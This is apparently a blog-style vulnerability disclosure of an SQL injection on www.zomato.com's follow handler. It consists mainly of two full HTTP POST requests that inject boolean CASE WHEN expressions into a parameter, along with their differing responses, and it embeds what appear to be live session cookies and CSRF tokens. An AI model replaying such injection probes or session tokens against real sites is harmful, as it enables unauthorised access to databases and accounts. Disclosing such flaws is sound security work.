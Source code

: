 ```yaml
---
layout: post
title: www.zomato.com SQL Injection
categories: articles
---
```


<p align="right" class="date">{{ page.date | date_to_string }} - saltedfish</p>

## Steps To Reproduce:

Step 1: visit and login

Step 2:

{% highlight php %}
POST /php/common_follow_handler.php?type=follow_all HTTP/1.1
Host: www.zomato.com
Connection: close
Content-Length: 109
Accept: application/json, text/javascript, /; q=0.01
Origin: https://www.zomato.com
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: https://www.zomato.com/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: fbtrack=8a7f14c8b74958d3eaa88d1a45aca0fd; _ga=GA1.2.657534215.1529389361; dpr=1; cto_lwid=7ff8913d-c913-428f-bc62-2b2083f7450d; G_ENABLED_IDPS=google; __utmx=141625785.FQnzc5UZQdSMS6ggKyLrqQ$0:NaN; zhli=1; selectedDeliveryPlace=%7B%22entity_id%22%3A%223881%22%2C%22entity_type%22%3A%22DSZ%22%2C%22place_name%22%3A%22Dubai%20Knowledge%20Park%22%7D; feed_pref=city; SL_C_23361dd035530_KEY=05a4e27ac591b9ca633a4fe9b5fdc3875e22560f; zl=en; frcp_g=1; _gid=GA1.2.551947448.1535962312; al=1; orange=3247115; zone=7000; csrf=273022387c6fdb5b035790462cee2310; PHPSESSID=6314a14c38fd9f6ef8757102c6223db08fc4f1f2; squeeze=c9d44ea7f3a4e878d4f9bc0702a90e35; session_id=f53614924d964-b18a-4bcc-bb7b-918f7223963a; fbcity=6; ak_bmsc=622939D608DCC69BECCB32F4EB4922D1CB4A4306441F000052448E5B74DCC346~plgjmroXGsDV+cWwoWZmINEIZ9IUb6nQGZT/dzAAWOQYNy6nqrSxauuL2cd2Sax+Tb1VKyzeMDAA/PwJ4GCzzG6IrmYk7pqgFqZfR++ffCPgoAXauCju2ow4KsEo6NUzC9w+zJlddGcmSfYwtku5M4x6XzscOoEBFqCJ29/nQo8qaCwyNTUbDwVIxY4+N2Y8ETRdmdaV2/mDuYCMoRDo45M7rUpcPvo7wF9JJbKpUv/iI=; AMP_TOKEN=%24NOT_FOUND; LEL_JS=true; bm_sv=718E9125BCCC28798F841AE52ADAC741~aZPoyN9VGHc87X49I0AQJpvVlQVjR/b1xWSWdNxAYuUkjNAUKCM6IB9BClW9qggof43td/HTNmKWlgq8UQCRB/KxaMyj/fPoHzz2IGc8oCIzyS/K1WfF7s70YierHmrrz0xk/sxm1taCFz5ftMKYDJpJxZDvm04cyYHIkMAcqHc=; __utmxx=141625785.FQnzc5UZQdSMS6ggKyLrqQ$0:1536051775:8035200

follow_list=55175964/(case when(1=1) then 1 else 0 end)&type=USER&csrf_token=273022387c6fdb5b035790462cee2310


response {"status":"success"}
{% endhighlight %}


Step 3:

{% highlight php %}
POST /php/common_follow_handler.php?type=follow_all HTTP/1.1
Host: www.zomato.com
Connection: close
Content-Length: 109
Accept: application/json, text/javascript, /; q=0.01
Origin: https://www.zomato.com
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: https://www.zomato.com/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: fbtrack=8a7f14c8b74958d3eaa88d1a45aca0fd; _ga=GA1.2.657534215.1529389361; dpr=1; cto_lwid=7ff8913d-c913-428f-bc62-2b2083f7450d; G_ENABLED_IDPS=google; __utmx=141625785.FQnzc5UZQdSMS6ggKyLrqQ$0:NaN; zhli=1; selectedDeliveryPlace=%7B%22entity_id%22%3A%223881%22%2C%22entity_type%22%3A%22DSZ%22%2C%22place_name%22%3A%22Dubai%20Knowledge%20Park%22%7D; feed_pref=city; SL_C_23361dd035530_KEY=05a4e27ac591b9ca633a4fe9b5fdc3875e22560f; zl=en; frcp_g=1; _gid=GA1.2.551947448.1535962312; al=1; orange=3247115; zone=7000; csrf=273022387c6fdb5b035790462cee2310; PHPSESSID=6314a14c38fd9f6ef8757102c6223db08fc4f1f2; squeeze=c9d44ea7f3a4e878d4f9bc0702a90e35; session_id=f53614924d964-b18a-4bcc-bb7b-918f7223963a; fbcity=6; ak_bmsc=622939D608DCC69BECCB32F4EB4922D1CB4A4306441F000052448E5B74DCC346~plgjmroXGsDV+cWwoWZmINEIZ9IUb6nQGZT/dzAAWOQYNy6nqrSxauuL2cd2Sax+Tb1VKyzeMDAA/PwJ4GCzzG6IrmYk7pqgFqZfR++ffCPgoAXauCju2ow4KsEo6NUzC9w+zJlddGcmSfYwtku5M4x6XzscOoEBFqCJ29/nQo8qaCwyNTUbDwVIxY4+N2Y8ETRdmdaV2/mDuYCMoRDo45M7rUpcPvo7wF9JJbKpUv/iI=; AMP_TOKEN=%24NOT_FOUND; LEL_JS=true; bm_sv=718E9125BCCC28798F841AE52ADAC741~aZPoyN9VGHc87X49I0AQJpvVlQVjR/b1xWSWdNxAYuUkjNAUKCM6IB9BClW9qggof43td/HTNmKWlgq8UQCRB/KxaMyj/fPoHzz2IGc8oCIzyS/K1WfF7s70YierHmrrz0xk/sxm1taCFz5ftMKYDJpJxZDvm04cyYHIkMAcqHc=; __utmxx=141625785.FQnzc5UZQdSMS6ggKyLrqQ$0:1536051775:8035200

follow_list=55175964/(case when(1=2) then 1 else 0 end)&type=USER&csrf_token=273022387c6fdb5b035790462cee2310


response {"status":"failed"}
{% endhighlight %}

## Impact — SQL Injection

![图片1](https://i.imgur.com/MblmdRd.png)
![图片2](https://i.imgur.com/03zs7X3.png)

